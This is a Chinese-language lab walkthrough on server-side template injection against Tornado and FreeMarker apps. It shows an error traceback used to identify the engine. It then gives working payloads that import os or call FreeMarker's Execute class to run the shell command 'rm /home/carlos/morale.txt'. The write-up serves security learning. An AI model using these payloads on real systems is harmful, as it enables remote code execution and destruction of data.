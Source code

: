 发现这里确实有SSTI。

而我将这里改成毫无意义的`aaaa`的时候，在评论页面返回了报错页面。

```
Internal Server Error Traceback (most recent call last): File "<string>", line 16, in <module> File "/usr/lib/python2.7/dist-packages/tornado/template.py", line 348, in generate return execute() File "<string>.generated.py", line 4, in _tt_execute NameError: global name 'aaaa' is not defined
```

我们发现这里是`tornado`引擎，去找这个引擎的`payload`。

这里在前面其实发现了可以用双大括号去穿透模板语句。

试着直接执行system命令。

`7*7}}{{system("rm+/home/carlos/morale.txt")}}`

然后返回system未定义。

尝试导入`os`

`7*7}}{%25import+os%25}{{os.system("rm+/home/carlos/morale.txt")}}`

#### 3. Server-side template injection using documentation

在修改模板页面找到三个模板点，并且是可以修改的。

![3.1](SSTI-burp.assets/3.1.png)

然后输入一个错误的语句，返回了报错信息，可以看到引擎是`freemarker`。

payload:

```
<#assign test="freemarker.template.utility.Execute"?new()>
${test("rm /home/carlos/morale.txt")}
```
